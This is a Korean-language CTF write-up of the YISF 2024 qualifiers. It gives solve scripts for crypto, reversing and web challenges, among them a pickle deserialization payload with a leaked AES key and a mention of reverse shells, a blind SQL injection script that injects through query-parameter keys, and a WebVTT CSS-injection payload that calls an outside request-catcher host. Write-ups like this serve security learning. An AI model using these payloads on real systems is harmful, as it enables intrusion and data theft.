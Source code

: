 ```yaml
---
title: yisf-quals-writeup
published: 2024-10-16
description: "yisf quals + upsolving"
image: ""
tags: [yisf, writeup]
category: "writeup"
draft: false
lang: "ko"
---
```


# Solved

## Flaggcut

```python
# chall.py
assert len(flag := open('flag', 'rb').read()) == 28
assert (mod := int(input())) < 200
print(int.from_bytes(flag, 'big') % mod)
```

위와 같은 간단한 코드가 주어진다.
**CRT**가 인텐이지만 **음수**를 넣는 언인텐으로 풀이할 수 있다.

```python
# solve.py
from pwn import *
from Crypto.Util.number import long_to_bytes
r = remote("211.229.232.101", 22111)

r.sendline('-1'+'0'*80)
data = r.recvline().decode()
print(long_to_bytes(10**80+int(data)))

# YISF{cutcutcut_flagflagfalg}
```

## PhoneTICgrief

변형된 포네틱 코드이다.
포네틱 코드를 두번 돌려 디코딩 할 수 있다.
(다만 L은 Linux로 치환해야 한다.)

```python
table = {
    "A": "Alfa", "B": "Bravo", "C": "Charlie", "D": "Delta", "E": "Echo",
    "F": "Foxtrot", "G": "Golf", "H": "Hotel", "I": "India", "J": "Juliett",
    "K": "Kilo", "L": "Linux", "M": "Mike", "N": "November", "O": "Oscar",
    "P": "Papa", "Q": "Quebec", "R": "Romeo", "S": "Sierra", "T": "Tango",
    "U": "Uniform", "V": "Victor", "W": "Whiskey", "X": "Xray", "Y": "Yankee",
    "Z": "Zulu"
}

# YISF{remember_my_birthday}
```

## take_your_flag

**ROL**을 역산해주고, 안티 리버싱만 잘 보면 된다.

```python
fake = bytes.fromhex('99 85 AD 95 7D B1 BD D9 95 7D 99 85 AD 95 7D B1 BD D9 95 7D 99 85 AD 95 7D B1 BD D9 95')
flag = ''
dword_4020 = [
    0xC4, 0x95, 0x83, 0xC4, 0x7D, 0x99, 0xC4, 0xD0, 0x9D, 0x7D, 0xD4, 0xA5,
    0xC4, 0xCD, 0x7D, 0xC4, 0xCD, 0xB2, 0xE5, 0x7D, 0xA4, 0xBD, 0xAD, 0x95,
    0x7D, 0xA8, 0xD0, 0xA1, 0xD0, 0x7D, 0xD3, 0xD0, 0xAD, 0xC8, 0x7D, 0x99,
    0xC4, 0x85, 0x9D
]

dword_4020[0] += 5
dword_4020[2] += 2
dword_4020[10] -= 3
dword_4020[11] -= 4
dword_4020[17] += 3
dword_4020[20] += 5
dword_4020[25] -= 7
dword_4020[30] -= 2
for c in dword_4020:
    flag += chr(((c>>2) | ((c<<6)& 0xFF)) & 0xFF)

print('YISF{'+flag+'}')

# YISF{rea1_f14g_th1s_1smy_joke_h4h4_t4k2_f1ag}
```

## webcome

python의 pickle모듈에서 발생하는 deserialization 취약점이다.

`object.__reduce__` 메소드는 unpickling할 때 어떻게 객체를 재구성할지에 관한 명령 피연사자와 명령어를 포함한다.

```python
def __reduce__():
    return ((callable_method), (args))
```

os.system으로는 반환값을 받기가 어려워서 eval을 사용하거나 리버스쉘을 열면 된다.

`AES_KEY`는 `X-AES-KEY` 헤더를 통해 유출된다.

리눅스에서 코드를 짜서 그대로 보내주면 된다.

```python
# Linux, Ubuntu 22.04.5 LTS
import pickle, base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad


AES_KEY = "36f6d9a966c4478c73af4fde2f813212"

def encrypt(data):
    cipher = AES.new(AES_KEY.encode(), AES.MODE_ECB)
    return cipher.encrypt(pad(data, AES.block_size))

class exploit():
    def __reduce__(self):
        return (eval,("open('/usr/src/app/flag.txt').read()",))

payload = base64.b64encode(encrypt(pickle.dumps({"name":exploit(),"userid":"","password":""}))).decode('utf8')
print(payload)

# YISF{webCOme_T0_7He_h4CK1ng__wEBCOM3}
```

## My Memo Service

재밌는 SQL Injection 문제였다.

```python
# dist/routes/memo.py
@writeBP.get('/viewer')
def memoView():
    memoId = request.args.to_dict()

    if 'mid' not in memoId or 'uid' not in memoId:
        return redirect(url_for('error', msg="올바르지 않은 메모글을 보려고 합니다.", returnUrl="/"))

    if re.match(r'^[0-9a-fA-F]{8}\b-[0-9a-fA-F]{4}\b-[0-9a-fA-F]{4}\b-[0-9a-fA-F]{4}\b-[0-9a-fA-F]{12}$', memoId['mid']) is None or re.match(r'^[0-9a-fA-F]{8}\b-[0-9a-fA-F]{4}\b-[0-9a-fA-F]{4}\b-[0-9a-fA-F]{4}\b-[0-9a-fA-F]{12}$', memoId['uid']) is None:
        return redirect(url_for('error', msg="올바르지 않은 메모글을 보려고 합니다.", returnUrl="/"))

    result = memoListRepository.get_memo(memoId, session['uid'])
```

`memoId`를 request.args.to_dict()로 전부 넣어준다.

get_memo에서는 단지 mid, uid로 시작하는 문자열은 sql쿼리 문에 넣어주는데 여기서 **Blind SQL Injection**이 발생한다.

```python
# dist/libs/repository/MemoList.py
try:
    # check memo exist and notice memo
    # !!!!! 취약함
    with self.__dbSess.cursor() as cursor:
        cursor.execute(f"SELECT `mid`, `uid` FROM `{self.__MEMO_TABLE_NAME}` WHERE " + " AND ".join(f"`{k}`='{escape(v)}'" for k, v in memoData.items() if k.startswith('mid') or k.startswith('uid')) + " LIMIT 1")
        _tmpQueryResult = cursor.fetchone()

    if not _tmpQueryResult:
        raise Exception('No data found')

    if escape(memoDataMid) != _tmpQueryResult[0] or escape(memoDataUid) != _tmpQueryResult[1]:
        raise Exception('not allowed to view this memo')

    # get memo & no memo Exception('not allowed to view this memo') - 생략
```

v에 대해서는 escape를 실행해주지만 k는 그냥 값을 넘겨준다.

sql문들을 살펴보면 나의 notice_id는 무조건 1이고, 공지는 2, 플래그는 3이므로 페이로드를 잘 작성해주면 된다.

<details>
<summary><i>Exploit</i></summary>

```python
# ex.py
import requests
from urllib.parse import quote, urlparse, parse_qs
import string
from bs4 import BeautifulSoup

url = "http://211.229.232.100:48410"
# url = "http://localhost:48410"

r = requests.session()

def register():
    global r
    res = r.post(f"{url}/account/register", data={"name":"guest","email":"guest@guest.guest","password":"guest"}) # print(res.text)
def login():
    global r
    res = r.post(f"{url}/account/login", data={"name":"guest","password":"guest"}) # print(res.text)
mid = '' # 내 게시글 mid
uid = '' # 내 게시글 uid'

register()
login()

flag_mid = '' # 85f70661-83fe-447b-aad5-3db71431174f
flag_uid = '' # 4e5f6a7b-8c9d-0123-ef45-6789abcdef01
flag = 'MY_SECRET_IS_YISF{'

# ab2a67ed7217d50bb048bc312bb47921f7b087cc894cfa34caf1e8cef883ef0a}...?

for i in range(32):
    if i in [8, 12, 16, 20]:
    flag_mid += '-'
    for c in string.hexdigits:
    payload = f"mid`=`mid`OR`mid`like '{flag_mid+c}%' AND`is_notice`!=2 AND `is_notice`!=1 order by is_notice DESC;#"

            res = r.get(f'{url}/memo/viewer?mid={mid}&uid={uid}&{quote(payload)}=1')
            soup = BeautifulSoup(res.text, 'html.parser')
            cards = soup.find_all('div', {'class':'col'})
            if cards:
                pass
            else:
                print('!!', flag_mid+c)
                flag_mid += c
                break

for i in range(32):
    if i in [8, 12, 16, 20]:
    flag_uid += '-'
    for c in string.hexdigits:
    payload = f"mid`=`mid`OR`mid`='{flag_mid}' AND `uid` like '{flag_uid+c}%' order by is_notice DESC;#"

            res = r.get(f'{url}/memo/viewer?mid={mid}&uid={uid}&{quote(payload)}=1')
            soup = BeautifulSoup(res.text, 'html.parser')
            cards = soup.find_all('div', {'class':'col'})
            if cards:
                pass
            else:
                print('!!', flag_uid+c)
                flag_uid += c
                break

for i in range(200):
    for idx, c in enumerate(string.ascii*letters+string.digits+r"""!$&()\*+,-./:;<=>?@[\]^`{|}~*"""):
    payload = f"mid`=`mid`OR`mid`='{flag_mid}' AND `uid`='{flag_uid}' AND `content` like BINARY('{flag+c}%') order by is_notice DESC;#"

    res = r.get(f'{url}/memo/viewer?mid={mid}&uid={uid}&{quote(payload)}=1')
    soup = BeautifulSoup(res.text, 'html.parser')
    cards = soup.find_all('div', {'class':'col'})
    if cards:
        pass
    else:
        print('!!', flag+c)
        flag += c
        break

# YISF{ab2a67ed7217d50bb048bc312bb47921f7b087cc894cfa34caf1e8cef883ef0a}

```

</details>

---

# Upsolving

## ViroFluX

**is07ing**선배의 풀이를 보고 공부했다.
[Link](https://blog.is07king.kr/posts/2024_YISF_Qual_Writeup/#2-viroflux)

**Unity Game**을 리버싱하는 문제가 주어진다.

`dnspy`, `cheat engine`을 게임 해킹에서 활용할 수 있다.

[Download Link](https://github.com/dnSpy/dnSpy/releases)

```
1. ./[GAME_NAME]_Data/Managed/Assembly-CSharp.dll를 dnspy에서 열어주면서 Target 체크 루틴과 점수 체크 루틴을 지워주고 실행만 하게 하면 된다.

2. base.gameObject.SetActive(false);로 봇의 부활을 막아준다.

3. 데미지도 높여준 후 Key를 먹고, Flag Portal을 타고 들어가면 플래그를 얻을 수 있다.
```

`YISF{v4Cc1N3s_AtC_CoDe_J07bB}`

## cinema

```py
import requests
from urllib.parse import quote
import clipboard

track_url = f"/review?text="+quote('''WEBVTT
00:00.000-->00:30.000
<v>''')

payload = f'''<track default kind="captions" src="{quote(track_url)}" >
<style>
::cue(v)[value^=1] {'''{
    background: url('https://rfbxspa.request.dreamhack.games');
}'''}
</style>'''
clipboard.copy(payload.replace('\n',' '))
```

클라이언트에서 DOMPurify를 사용해 xss를 필터링하는데 WebVTT API라는 것을 사용하여 CSS Injection을 일으킨다.
상당한 ptsd가 있어서 라업은 안 쓴다.
(참고로 Nivy Service는 아예 DOMPurify 1-day문제였다.)

[드림핵](https://dreamhack.io/wargame/challenges/1380)에 포팅되어서 풀이하였다.

[WebVTT API](https://developer.mozilla.org/en-US/docs/Web/API/WebVTT_API)
